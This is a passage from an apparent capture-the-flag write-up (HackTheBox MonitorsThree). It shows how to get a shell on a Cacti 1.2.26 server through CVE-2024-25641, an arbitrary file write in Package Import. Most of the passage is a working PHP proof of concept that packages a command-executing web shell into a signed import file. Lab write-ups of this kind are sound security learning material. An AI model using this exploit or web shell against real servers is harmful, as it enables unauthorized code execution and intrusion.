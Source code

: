 ### Shell as www-data

#### Cacti 1.2.26 (CVE-2024-25641)

An arbitrary file write vulnerability, exploitable through the "Package Import" feature, allows authenticated users having the "Import Templates" permission to execute arbitrary PHP code on the web server (RCE).
Details

The vulnerability is located within the import_package() function defined into the /lib/import.php script.

##### Poc
- I modified the original poc at [poc](https://github.com/cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88)

```bash
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";

// Webshell PHP code (Modified for cmd input)
$filedata = "<?php if(isset(\$_REQUEST['cmd'])){ echo '<pre>'; \$cmd = (\$_REQUEST['cmd']); system(\$cmd); echo '</pre>'; die; }?>";

$keypair = openssl_pkey_new();
$public_key = openssl_pkey_get_details($keypair)["key"];
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```
![alt text](/assets/blog/HTB-MonitorsThree/upload_exploit.png)
